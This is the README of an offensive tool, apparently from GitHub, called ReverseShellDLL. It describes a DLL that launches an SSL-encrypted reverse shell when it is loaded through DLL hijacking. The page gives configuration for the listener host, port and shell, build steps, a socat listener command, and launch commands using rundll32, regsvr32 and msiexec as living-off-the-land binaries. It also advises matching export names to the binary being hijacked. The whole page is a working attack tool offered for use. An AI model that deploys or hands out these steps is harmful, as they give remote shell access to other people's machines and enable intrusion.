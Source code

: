 ReverseShellDLL
===============

Main Features
-------------
1. Universal DLL Hijack - ReverseShellDLL uses the DLL_PROCESS_ATTACH notification to ensure that the reverse shell is executed regardless of the export called. When the reverse shell exits, the process is gracefully terminated, hence the "export not found" error message will never show. 
2. SSL Encryption - ReverseShellDLL uses OpenSSL library to perform the encryption.
3. Statically Linked - ReverseShellDLL will run on all recent Windows versions out of the box without need for .NET framework or Microsoft C Runtime library to be installed.

![image](https://limbenjamin.com/media/reverseshelldll.png)

Configuration
-------------
```
domain 	- Domain/IP Address where listener is running
port 	- Port where listener is running
process - Shell to Execute (i.e. cmd.exe, powershell.exe, bash.exe)
exitCmd	- Typing this Cmd will cause the program to terminate


bufferSize (bytes) / delayWait (millisecs)
- High bufferSize and high delayWait will result in huge chunks of output to be buffered and sent at one time.
- Low bufferSize and low delayWait will result in "smooth" terminal experience at the expense of more small packets.  

* Some binaries verify that exports match before loading DLLs. You might have to change the export names in ReverseShellDLL.cpp to match the target hijack binary.

```

Compilation Instructions
------------------------
1. Install OpenSSL. I used the version from [https://slproweb.com/products/Win32OpenSSL.html](https://slproweb.com/products/Win32OpenSSL.html). Installation path is `C:\Program Files\OpenSSL-Win64`. Make sure to select the option to copy DLL to system folder during installation. Otherwise, you may have to tweak the Project Properties to get it to compile.
2. Git clone repository
3. Configure as necessary
4. Build binary

Running
-------
1. Generate SSL cert on listener machine
```shell
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
cat key.pem cert.pem > test.pem
```
2. Start listener. I have success with socat 1.7.3.2 and later. Earlier versions might have issues with protocol negotiation. If using bash, removing crnl from socat command line.
```shell
socat openssl-listen:1443,reuseaddr,cert=test.pem,verify=0,fork,crnl -
```
3. Deploy DLL in appropriate hijack location. If necessary, it can also be started via rundll32, regserver32 or other LOLBINs.
```shell
rundll32.exe ReverseShellDLL.dll,UniversalSoWhatEverYouTypeHereWillWork
rundll32.exe ReverseShellDLL.dll,CoCreateInstance
regsvr32.exe ReverseShellDLL.dll
msiexec /y "C:\path\to\dll\ReverseShellDLL.dll"
```


Credits
-------
https://github.com/limbenjamin/ReverseShellDll
https://github.com/JustasMasiulis/xorstr